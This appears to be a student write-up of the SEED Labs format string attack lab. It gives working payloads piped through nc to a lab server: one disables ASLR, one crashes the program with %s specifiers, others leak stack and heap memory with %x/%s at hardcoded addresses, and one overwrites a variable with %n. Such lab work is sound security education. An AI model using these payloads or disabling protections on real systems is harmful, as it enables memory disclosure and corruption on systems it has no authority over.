

## [Format String Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Software/Format_String/)

#### 2 Environment Setup

## 2.1 Turning Off Countermeasures

```sh
sudo sysctl -w kernel.randomize_va_space=0
```


## 2.2 The Vulnerable Program

**Compilation and Installation.**


## 2.3 Container Setup and Commands


#### 3 Task 1: Crashing the Program

```sh
echo "%s%s%s%s%s%s" | nc 10.9.0.5 9090
```


Since the server program did not print `Returned properly`, we can understand that the program has crashed.

There may be null pointers, addresses pointing to protected memory, or virtual addresses that are mapped to physical memory. When a program tries to get data from an invalid address, it will crash.

#### 4 Task 2: Printing Out the Server Program’s Memory

## Task 2.A: Stack Data

- How many %x format specifiers do you need so you can get the server program to print out the first four bytes of your input?

```sh
python3 -c 's = "TASK2A-" + "%x " * 11 + "%s\n";print(s)' | nc 10.9.0.5 9090
```

By trial and error, we observe that after putting 11 `%x`, the next `%s` is having the entered user input.


## Task 2.B: Heap Data

From the server printout, we get the address of the secret message string as `0x080b4008`. The address is placed on the stack (the buffer input), with the least significant byte stored in the highest address. Then, we place `63` `%x`s and finally use the `%s` to print out the current position of the `va_list` pointer.

```sh
python3 -c 's = "\x08\x40\x0b\x08" + "%x " * 63 + "%s\n";print(s)' | nc 10.9.0.5 9090
```


#### 5 Task 3: Modifying the Server Program’s Memory

## Task 3.A: Change the value to a different value.

From the server printout, we get the address of the target variable as `0x080e5068`. Similar to the previous task, we place this address in the initial portion of the stack. Then, instead of printing the value of the current position of the `va_list` pointer, we replace the `%s` with `%n`, so that the number of characters printed so far by the `printf` statement would be updated.

```sh
python3 -c 's = "\x68\x50\x0e\x08" + "%x " * 63 + "%n\n";print(s)' | nc 10.9.0.5 9090
```


